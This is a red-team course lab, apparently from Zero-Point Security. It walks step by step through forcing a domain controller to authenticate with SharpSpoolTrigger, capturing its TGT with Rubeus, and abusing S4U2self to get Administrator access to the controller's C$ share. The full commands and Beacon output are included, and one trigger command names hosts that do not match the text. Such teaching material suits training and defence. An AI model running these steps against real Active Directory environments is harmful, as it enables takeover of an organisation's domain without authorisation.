 
In the previous lab on [unconstrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd18dc6d251272081c5f), there was an automated task that had the user _dyork_ interact with the CIFS service on _lon-ws-1_ (e.g. `dir \\lon-ws-1\c$`).  Because this computer was configured for unconstrained delegation, it allowed us to capture their TGT from memory and impersonate them to access the domain controller (since dyork happened to be a domain admin).

In the real world, we're obviously not guaranteed to have a user, let alone a DA, interact with the computer whilst we're monitoring for tickets.  Although there are techniques to harvest them by [seeding](https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/) files such as `.lnk`, `.url`, `.library-ms`, and `.searchConnector-ms`, they still rely on user-interaction.  The objective of this lesson is to go after a computer (such as domain controller) directly.

There are multiple 'remote authentication triggers' that can be used to force a computer to authenticate to another computer.  Two popular techniques include Lee Christensen's 'SpoolSample', which uses the Print System Remote Protocol [MS-RPRN]; and Topotam's 'PetitPotam', which uses the Encrypting File System Remote Protocol [MS-EFSRPC].

We could therefore monitor for tickets on lon-ws-1:

```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:5 /nowrap
```

Then use a tool such as [SharpSystemTriggers](https://github.com/cube0x0/SharpSystemTriggers) to force _lon-dc-1_ to authenticate to _lon-ws-1_.

```powershell
beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe enc-fs-1 enc-jmp-1

NdrClientCall2x64
[-]RpcRemoteFindFirstPrinterChangeNotificationEx status: 6
```

> You may need to run it a few times.

> The remote authentication trigger should be run as a standard domain user in a medium-integrity context.

Rubeus will then capture the TGT of the targeted computer account.

```powershell
[*] 21/02/2025 11:54:39 UTC - Found new TGT:

  User                  :  LON-DC-1$@CONTOSO.COM
  StartTime             :  21/02/2025 10:39:21
  EndTime               :  21/02/2025 20:38:58
  RenewTill             :  28/02/2025 10:38:58
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    doIFt[...snip...]5DT00=
```

However, if you inject this ticket into a logon session and attempt to access the computer using a service like CIFS, you'll see that it will fail with an 'access denied' error.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: LON-DC-1$ @ CONTOSO.COM
	Server: krbtgt/CONTOSO.COM @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize 
	Start Time: 2/21/2025 10:39:21 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0x1 -> PRIMARY 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$
[-] could not open \\lon-dc-1\c$\*: 5 - ERROR_ACCESS_DENIED
```

This is because computer accounts do not get local admin access to themselves remotely.  The workaround to compromise any computer once you have its TGT is to use the S4U2self protocol to obtain a usable service ticket for a different (impersonated) user.  I believe this technique was first published by [Elad Shamir](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) and merged into Rubeus by [Charlie Clark](https://exploit.ph/revisiting-delegate-2-thyself.html).

Charlie added a new `/self` parameter to Rubeus' `s4u` command.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:doIFt[...snip...]5DT00= /nowrap
```

Where:

- `/impersonateuser` is the user we want to impersonate.
    
- `/self` tells Rubeus not to submit an S4U2proxy request.
    
- `/altservice` is the SPN we want substituted into the service ticket.
    
- `/ticket` is the computer's TGT.

```powershell
[*] Action: S4U

[*] Building S4U2self request for: 'LON-DC-1$@CONTOSO.COM'
[*] Using domain controller: lon-dc-1.contoso.com (10.10.120.1)
[*] Sending S4U2self request to 10.10.120.1:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/lon-dc-1'
[*] Got a TGS for 'Administrator' to 'cifs@CONTOSO.COM'
[*] base64(ticket.kirbi):

      doIF/[...snip...]kYy0x
```

Rubeus performs an S4U2self request exactly as we saw with [constrained delegation](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=6731fd211c053b7aa602ab3b) when 'Kerberos only' is in use, i.e. for the target user where the service is the computer's own SamAccountName (_Administrator@LON-DC-1$_).  This returns a valid service ticket that would normally be used in an S4U2proxy request.  However, we can't do that since there is no constrained delegation here.  Instead, Rubeus simply swaps out the service name for the service specified in the `/altservice` parameter, which in this case becomes _Administrator@cifs/lon-dc-1_.  Again, this works because the CIFS service runs under the context of the computer account (i.e. SYSTEM), so the encrypted part of the ticket can still be decrypted.

```powershell
beacon> run klist

Cached Tickets: (1)

#0>	Client: Administrator @ CONTOSO.COM
	Server: cifs/lon-dc-1 @ CONTOSO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	Ticket Flags 0x60a50000 -> forwardable forwarded renewable pre_authent ok_as_delegate name_canonicalize 
	Start Time: 2/21/2025 12:42:53 (local)
	End Time:   2/21/2025 20:38:58 (local)
	Renew Time: 2/28/2025 10:38:58 (local)
	Session Key Type: AES-256-CTS-HMAC-SHA1-96
	Cache Flags: 0 
	Kdc Called: 

beacon> ls \\lon-dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     01/24/2025 13:33:39   $Recycle.Bin
          dir     01/23/2025 13:57:51   $WinREAgent
          dir     01/23/2025 13:47:37   Documents and Settings
          dir     05/08/2021 08:20:24   PerfLogs
          dir     01/23/2025 15:46:17   Program Files
          dir     01/23/2025 15:46:18   Program Files (x86)
          dir     02/21/2025 11:06:13   ProgramData
          dir     01/23/2025 13:47:43   Recovery
          dir     01/29/2025 10:42:20   System Volume Information
          dir     01/24/2025 13:33:21   Users
          dir     01/24/2025 13:49:56   Windows
 12kb     fil     02/21/2025 02:38:14   DumpStack.log.tmp
 1gb      fil     02/21/2025 02:38:14   pagefile.sys
```
